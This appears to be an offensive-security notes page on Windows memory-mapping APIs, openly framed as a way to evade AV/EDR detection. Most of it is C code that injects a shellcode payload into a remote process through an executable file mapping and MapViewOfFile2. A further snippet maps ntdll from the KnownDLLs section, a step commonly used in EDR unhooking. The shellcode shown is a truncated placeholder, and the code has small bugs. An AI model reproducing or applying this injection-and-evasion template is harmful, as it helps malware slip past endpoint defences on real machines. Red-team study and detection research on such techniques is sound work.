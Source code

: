 ```yaml
---
description: >-
  Using private memory allocation functions are heavily monitored by AV/EDR.
  Using mapped memory can help circumvent detection.
---
```


# Memory Mapping



## Introduction

Memory Mapping functions are a great way of efficiently reading / writing data to files, loading KnownDLL's, and more

***

## CreateFileMapping

[CreateFileMapping](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfilemappinga) allows a process to create a virtual memory space that maps to the contents of a file on disk or to another memory location. The function returns a handle to the file mapping object.

```c
HANDLE CreateFileMappingA(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,     // Not Required - NULL
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,           // Not Required - NULL
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCSTR                lpName                       // Not Required - NULL   
);
```

`hFile` - A handle to a file from which to create a file mapping handle.

`flProtect` - Specifies the page protection of the file mapping object. (`PAGE_EXECUTE_READWRITE)`

`dwMaximumSizeLow` - The size of the file mapping handle returned. (Size of payload)

## M**apViewOfFile**

[MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile) maps a view of a file mapping object into the address space of a process.&#x20;

```c
LPVOID MapViewOfFile(
  [in] HANDLE     hFileMappingObject,
  [in] DWORD      dwDesiredAccess,
  [in] DWORD      dwFileOffsetHigh,           // Not Required - NULL
  [in] DWORD      dwFileOffsetLow,            // Not Required - NULL
  [in] SIZE_T     dwNumberOfBytesToMap
);
```

* `hFileMappingObject` - The returned handle from the `CreateFileMapping` WinAPI, which is the file mapping object.
* `dwDesiredAccess` - The type of access to a file mapping object, which determines the page protection of the page created. Should correspond w/ the flProtect attributes in CreateFileMapping.
* `dwNumberOfBytesToMap` - The size of the payload.



The below code creates a local and remote memory mapping that contains the Payload w/ RWX permissions.

```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>
#include <memoryapi.h>


#pragma comment(lib, "onecore.lib")

// x64 calc shellcode 
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51
};


int wmain( int argc, wchar_t* argv[]) {

    HANDLE hProcess = NULL;
    HANDLE hLocalFile = NULL;
    PVOID pLocalMapAddress = NULL;
    PVOID pRemoteMapAddress = NULL;
    DWORD PID = 0;

    if (argc < 2) {
        wprintf(L"[!] Insufficient Arguments Passed To Main Function\n");
        return -1;
    }

    PID = _wtoi(argv[1]);


    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) {
        wprintf(L"[!] Failed to Open Process %d\n", GetLastError());
        return -1;
    }

    // Create Local Mapped Memory for payload 
    hLocalFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sizeof(Payload), NULL);
    if (hLocalFile == NULL) {
        wprintf(L"[!] CreateFileMappingW Failed %d\n", GetLastError());
        return -1;
    }

    
    pLocalMapAddress = MapViewOfFile(hLocalFile, FILE_MAP_WRITE, NULL, NULL, sizeof(Payload));
    if (pLocalMapAddress == NULL) {
        wprintf(L"[!] MapViewOfFile Failed %d\n", GetLastError());
        return -1;
    }

    // Copy Payload to to Local Mapped Memory
    memcpy(pLocalMapAddress, Payload, sizeof(Payload));


    // Copy & Create Remote Memory Mapping
    pRemoteMapAddress = MapViewOfFile2(hLocalFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    if (pRemoteMapAddress == NULL) {
        wprintf(L"[!] MapViewOfFile Failed %d\n", GetLastError());
        return -1;
    }   

    wprintf(L"[+] Copied payload to remote memory address: %p\n", pRemoteMapAddress);
    getchar();

    return 0;
}

```

_**To Map Memory in Remote Process We can use the following:**_

##

##

## MapViewOfFile - Load KnownDLL

We use MapViewOfFile in conjuction with pNtOpenSection to read the DLL into memory.

```c

OBJECT_ATTRIBUTES objAtr        = { 0 };
UNICODE_STRING    unicodeString = { 0 };
PVOID pBuffer = 0;
HANDLE hSection;


unicodeString.Buffer = (PWSTR)NTDLL;
unicodeString.Length = wcslen(NTDLL) * sizeof(WCHAR);
unicodeString.MaximumLength = unicodeString.Length + sizeof(WCHAR);

InitializeObjectAttributes(&objAtr, &unicodeString, OBJ_CASE_INSENSITIVE, NULL, NULL);

fnNtOpenSection pNtOpenSection = (fnNtOpenSection)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtOpenSection");

NTSTATUS status = pNtOpenSection(&hSection, SECTION_MAP_READ, &objAtr);
if (status != 0x00) {
    printf("[!] NtOpenSection Failed With Error : 0x%0.8X \n", status);
    return -1;
}

pBuffer = MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL);
if (MapViewOfFile == NULL) {
    wprintf(L"[!] MapViewOfFile Failed %d\n", GetLastError());
    return -1;
}
```

##

## MapViewOfFile2

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) is used to map memory in a remote process.

```c
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,
  [in]           HANDLE  ProcessHandle,
  [in]           ULONG64 Offset,
  [in, optional] PVOID   BaseAddress,
  [in]           SIZE_T  ViewSize,
  [in]           ULONG   AllocationType,
  [in]           ULONG   PageProtection
);
```

## MapViewOfFile3

[MapViewOfFile3](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile3) is used to map memory in a remote process.

```c
PVOID MapViewOfFile3(
  [in]                HANDLE                 FileMapping,
  [in]                HANDLE                 Process,
  [in, optional]      PVOID                  BaseAddress,
  [in]                ULONG64                Offset,
  [in]                SIZE_T                 ViewSize,
  [in]                ULONG                  AllocationType,
  [in]                ULONG                  PageProtection,
  [in, out, optional] MEM_EXTENDED_PARAMETER *ExtendedParameters,
  [in]                ULONG                  ParameterCount
);
```

## UnmapViewOfFile

[UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-unmapviewoffile) is used to unmap previously mapped memory. This should be called on cleanup.

## UnmapViewOfFileEx

This is an extended version of [UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-unmapviewoffile) that takes an additional flags parameter.

## UnmapViewOfFile2

[UnmapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) Unmaps a previously mapped view of a file or a pagefile-backed section.
